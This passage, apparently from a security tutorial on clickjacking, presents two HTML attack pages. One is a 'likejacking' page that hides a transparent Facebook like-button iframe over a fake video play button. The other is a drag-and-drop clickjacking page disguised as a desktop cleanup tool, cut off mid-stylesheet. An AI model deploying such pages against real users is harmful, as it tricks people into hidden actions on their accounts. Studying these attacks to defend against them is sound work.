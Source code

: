 #### Attack 2: Likejacking (Social Media)

```html
<!-- likejack.html -->
<!DOCTYPE html>
<html>
<head>
    <title>Amazing Video!</title>
    <style>
        #facebook-iframe {
            position: absolute;
            top: 250px;
            left: 400px;
            opacity: 0;  /* Completely hidden */
            z-index: 999;
        }
        
        #play-button {
            position: absolute;
            top: 250px;
            left: 400px;
            font-size: 100px;
            cursor: pointer;
        }
    </style>
</head>
<body>
    <h1>Click play to watch this amazing video!</h1>
    <div id="play-button">▶️</div>
    
    <!-- Hidden Facebook like button iframe -->
    <iframe id="facebook-iframe" 
            src="https://www.facebook.com/plugins/like.php?href=attacker-page">
    </iframe>
</body>
</html>
```

#### Attack 3: Drag & Drop Clickjacking

```html
<!-- drag-drop-attack.html -->
<!DOCTYPE html>
<html>
<head>
    <title>Desktop Cleanup Tool</title>
    <style>
        #dropzone {
            width: 400px;
            height: 300px;
            border: 2px dashed #ccc;
            text-align: center;
            padding: 100px;
            position: absolute;
            top: 100px;
            left: 100px;
            z-index: 1;
        }
        
        #hidden-iframe {
            position: absolute;
            top: 100px;
            left: 100px;
            opacity: 0;
            z-index: 999;
```